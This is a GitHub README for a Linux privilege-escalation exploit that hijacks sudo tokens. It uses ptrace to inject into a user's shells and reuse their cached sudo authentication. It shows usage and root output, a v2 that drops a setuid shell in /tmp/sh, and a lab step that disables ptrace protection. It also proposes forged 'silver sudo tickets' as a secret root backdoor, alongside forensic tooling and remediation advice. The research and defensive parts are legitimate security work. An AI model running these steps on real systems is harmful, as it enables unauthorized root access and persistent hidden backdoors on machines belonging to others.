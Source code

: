 # [Linux] Privilege Escalation by injecting process posseding sudo tokens

#### Inject process that have valid sudo token and activate our own sudo token

## Introduction

We all noticed that sometimes sudo doesn't ask us for a password because he remembers us. How does he remember us and how does he identifies us? Can we falsify our identity and become *root*?
As far as I know this research is not yet documented, but let me know if it is.
Indeed sudo creates a file for each linux user in /var/run/sudo/ts/[username].
These files contain both successful and failed authentications, then sudo uses these files to remember all the authenticated processes. -- [@chaignc][]

This repository provides you:
* A way to gain root privilege by abusing sudo tokens (Don't be too happy there are requirements).
* A tool to forge sudo tokens for a given process (write_sudo_token in ./extra_tools/).
* A tool to parse sudo tokens for forensic (read_sudo_token_forensic and read_sudo_token in ./extra_tools).
* A technique to transform any root arbitrary file write into stable root code execution.  


## How to exploit a vulnerable system
PS: read requirements!!
```sh
$ sudo whatever
[sudo] password for user:    # Press <ctrl>+c since you don't have the password. # This creates an invalid sudo tokens.
$ sh exploit.sh
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Requirements
* Ptrace fully enabled (/proc/sys/kernel/yama/ptrace_scope == 0).
* Current user must have living process that has a valid sudo token with the same uid.

```
The default password timeout is 15 minutes. So if you use sudo twice in 15 minutes (900 seconds), you will not be asked to type the user’s password again.
```

## What's happenning behind the scene?

exploit.sh injects all shell processes owned by the current user and use their sudo token to validate our own sudo token. It's barely 3 lines of shell, have a look.

## Usecase

This is far from a generic privesc without requirements but it works, for instance if you have a RCE and don't have the user password but the victim uses sudo then you can easily get root by stealing his token.

## How to simulate in lab?

```sh
# echo 0 > /proc/sys/kernel/yama/ptrace_scope
# # Don't worry this is not persistent accross reboot
```
Start two terminals:
* one to type sudo and enter the right password (example: sudo ls).
* another to start the exploit as described above.

## Going further

### exploit v2 creates a suid sh in /tmp/sh

For those with less luck with exploit v1 try the v2

```sh
$ ./exploit_v2.sh
Current process : 2441
chmod: changing permissions of 'activate_sudo_token': Operation not permitted
Injecting process 1721 -> bash
Injecting process 2433 -> bash
cat: /proc/2446/comm: No such file or directory
Injecting process 2446 -> 
$ /tmp/sh -p
# id
uid=1001(test) gid=1001(test) euid=0(root) egid=0(root) groups=0(root),1001(test)
```

### Forensic, DFIR?

Printing to be improved but each process sudo attempt has one entry in /var/run/sudo/ts/[username].
Also these files are stored in tmpfs(ram), one could write a volatility plugin to parse this information to gather sudo attempt.
```sh
./read_sudo_token_forensic  < /var/run/sudo/ts/user
version, flags, uid, sid, starttime_sec, starttime_nsec
2, 0, 0, 0, 0, 0
2, 0, 1001, 1145, 188, 660000000
2, 0, 1001, 24878, 7461, 490000000
2, 0, 1001, 24578, 6974, 10000000
```

### Arbitrary write to root

If you have an abitrary write you can create a sudo token for your current process to gain root code execution.
checkout './write_sudo_token $$ > /var/run/sudo/ts/[username]' in extra_tools.

### Silver sudo tickets

A very good way to create a secret root backdoor on servers that rarely reboots.
Not done yet but checkout './write_sudo_token $$' in ./extra_tools

### Why

I was looking for a way to steal dead process sudo token, but it doesn't look possible because they are associated by ((process start time *and* process session id) *or* (tty start time *and* tty session id)). Session id (process pid) can be impersonated but the process start time is not fakable.

### How to remediate?

* Update your sudo version
* Reduce ptrace power, example edit /etc/sysctl.conf with
```
kernel.yama.ptrace_scope = 1
```
[yama ptrace scope](https://linux-audit.com/protect-ptrace-processes-kernel-yama-ptrace_scope/)

## Links

[Parsing /proc/[pid]/stat](https://www.redhat.com/archives/axp-list/2001-January/msg00355.html)

[Sudo token struct](https://www.sudo.ws/man/1.8.25/sudoers_timestamp.man.html)

[Linux based inter process code injection without ptrace](https://blog.gdssecurity.com/labs/2017/9/5/linux-based-inter-process-code-injection-without-ptrace2.html)

[Moving a process to another terminal](https://blog.habets.se/2009/03/Moving-a-process-to-another-terminal.html)

https://www.linusakesson.net/programming/tty/

----
By [@chaignc][] [#HexpressoTeam][hexpresso].


[hexpresso]:     https://hexpresso.github.io
[@chaignc]:    https://twitter.com/chaignc
